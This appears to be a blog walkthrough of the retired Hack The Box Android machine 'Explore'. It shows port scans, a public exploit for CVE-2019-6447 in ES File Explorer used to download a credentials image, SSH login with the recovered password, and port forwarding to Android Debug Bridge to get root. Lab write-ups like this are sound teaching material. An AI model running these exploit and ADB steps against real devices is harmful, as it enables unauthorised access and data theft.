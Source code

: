 ```yaml
---
layout: post
title: "HTB: Explore"
author: Andrew Cherney
date: 2023-02-20 20:18:32
tags: htb easy-box
icon: "assets/icons/explore.png"
post_description: ""
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $nmap -sC 10.10.10.247
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 20:31 CST
Nmap scan report for 10.10.10.247
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
2222/tcp open     EtherNetIP-1
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp filtered freeciv
```

These ports certainly are odd and indicate it is an android device. How do I know? Well first this is an Android box, but second that port 5555 is the Android Debug Bridge used for basic app maintenance (installing/debuging) and can give a command prompt. The state is filtered however, so likely this is hosted as a service but filtered to local traffic, I'll try that as a last resort. 

<h2>Ports near the void</h2>

It does strike me as odd that there are only these two ports. I decide to scan all of the ports available to see if anything turns up.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $nmap -sC 10.10.10.247 -p1-65535
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 21:58 CST
Nmap scan report for 10.10.10.247
Host is up (0.057s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
33391/tcp open     unknown
42135/tcp open     unknown
59777/tcp open     unknown
```

A little better, but not by much. In order my search yields that 33391 is unassigned, 42135 is occasionally for game servers, and 59777 is almost certainly ES File Explorer. Right out of the gate on speedguide.net it states the service has been vulnerable to CVE-2019-6447, an arbitrary file read and application execution vulnerability. 

<h1>User as u0_a76</h1>

<h2>CVE-2019-6447</h2>

[This is a proof of concept for that CVE](https://www.exploit-db.com/exploits/50070) and looking through it if you just send a post with json it'll let you run local commands on the Android shell. That said likely I cannot get a reverse shell since Android restricts its command usage pretty well. Instead with this remote command usage I can enumerate the system and search for hidden password files or images.

The commands the exploit denotes are as follows:

```
    print("  listFiles         : List all Files.")
    print("  listPics          : List all Pictures.")
    print("  listVideos        : List all videos.")
    print("  listAudios        : List all audios.")
    print("  listApps          : List Applications installed.")
    print("  listAppsSystem    : List System apps.")
    print("  listAppsPhone     : List Communication related apps.")
    print("  listAppsSdcard    : List apps on the SDCard.")
    print("  listAppsAll       : List all Application.")
    print("  getFile           : Download a file.")
    print("  getDeviceInfo     : Get device info.")
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $python3 CVE-2019-6447.py getDeviceInfo 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721
```

In running the basic list commands in order I come across the file named **creds.jpg** which seems odd.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $python3 CVE-2019-6447.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $python3 CVE-2019-6447.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $mv out.dat creds.jpg
```

![credentials](/img/explore/Explore_credentials.png)

<code>kristi</code> with password <code>Kr1sT!5h@Rp3xPl0r3!</code> should give us access. So with my machinations I still am not sure why in the initial cracking of this box I was thinking since port 8080 is http traffic that port 2222 would be ssh traffic. I tried it then and it worked.

In retrospect I see that in the initial nmap scan the port 2222 returns an ssh-hostkey, which is indicative of some sort of server with ssh connection capabilities.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $ssh kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ whoami
u0_a76
```

<h1>Root</h1>

<h2>SSH Tunneling</h2>

So that port on 5555 is Android Debug Bridge, and I have a hunch if I ssh tunnel to the machine I can run remote commands. 

```bash
ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555
```

<h2>Android Debug Bridge</h2>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $adb devices
List of devices attached
emulator-5554	device
```

Well that's promising. Now I can put adb in root mode and gain a root shell on the machine.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $adb root
* daemon not running; starting now at tcp:5037
* daemon started successfully
restarting adbd as root
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $adb -s emulator-5554 shell
x86_64:/ # whoami                                                                          
root
```

<h2>Finding the Flags</h2>

Since this is an android system and there are no home or root directories I need to find the flags. I suspect they might be in **/data** but I can toss out a search for both.

```bash
x86_64:/data # find / -name "root.txt" 2>/dev/null
/data/root.txt
1|x86_64:/data # find / -name "user.txt" 2>/dev/null                                       
/storage/emulated/0/user.txt
/mnt/runtime/write/emulated/0/user.txt
/mnt/runtime/read/emulated/0/user.txt
/mnt/runtime/default/emulated/0/user.txt
/data/media/0/user.txt
1|x86_64:/data # cat /data/root.txt
f04fc82b6d49b41c9---------------
x86_64:/data # cat /data/media/0/user.txt
f32017174c7c7e8f5---------------
```
